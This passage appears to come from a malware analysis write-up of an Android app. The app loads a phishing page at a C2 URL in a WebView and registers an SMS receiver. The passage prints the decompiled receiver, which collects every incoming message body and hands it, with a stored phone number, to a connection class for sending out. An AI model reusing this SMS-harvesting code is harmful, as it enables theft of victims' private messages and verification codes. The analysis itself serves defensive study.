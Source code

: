 ```java
        webView.loadUrl("https://eblaqie.org/pishgiri");  
    }  
}
```

Again, we start with `onCreate`. It sets the layout to a layout called `web`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android" xmlns:app="http://schemas.android.com/apk/res-auto" android:layout_width="4294967295" android:layout_height="4294967295">
  <WebView android:id="type1/2131165433" android:layout_width="4294967295" android:layout_height="4294967295"/>
</RelativeLayout>
```

This layout only contains a WebView. A WebView allows to display content from the internet inside a layout. After setting the layout, the `onCreate` function loads the URL `https://eblaqie.org/pishgiri`. It would have been interesting to see what's on there, but again because the C2 is down we can't see it.
Our final component to analyze is the SMS receiver (`MyReceiver`):

```java
package ir.siqe.holo;  
 
import android.content.BroadcastReceiver;  
import android.content.Context;  
import android.content.Intent;  
import android.content.SharedPreferences;  
import android.os.Bundle;  
import android.telephony.SmsMessage;  
   
public class MyReceiver extends BroadcastReceiver {  
    public void onReceive(Context context, Intent intent) {  
        int i = 0;  
        SharedPreferences sharedPreferences = context.getSharedPreferences("info", 0);  
        SharedPreferences.Editor edit = sharedPreferences.edit();  
        Bundle extras = intent.getExtras();  
        String str = com.androidnetworking.BuildConfig.FLAVOR;  
        String str2 = str;  
        if (extras != null) {  
            Object[] objArr = (Object[]) extras.get("pdus");  
            int length = objArr.length;  
            SmsMessage[] smsMessageArr = new SmsMessage[length];  
            while (true) {  
                str2 = str;  
                if (i >= length) {  
                    break;  
                }  
                smsMessageArr[i] = SmsMessage.createFromPdu((byte[]) objArr[i]);  
                str = ((str + "\r\n") + smsMessageArr[i].getMessageBody().toString()) + "\r\n";  
                i++;  
            }  
        }  
        if (str2.contains("سایت شب")) {  
            edit.putString("lock", "off");  
            edit.commit();  
        }  
        String str3 = str2;  
        if (str2.contains("\n")) {  
            str3 = str2.replaceAll("\n", " ");  
        }  
        new connect(sharedPreferences.getString("phone", "0"), str3, context);  
    }  
}
```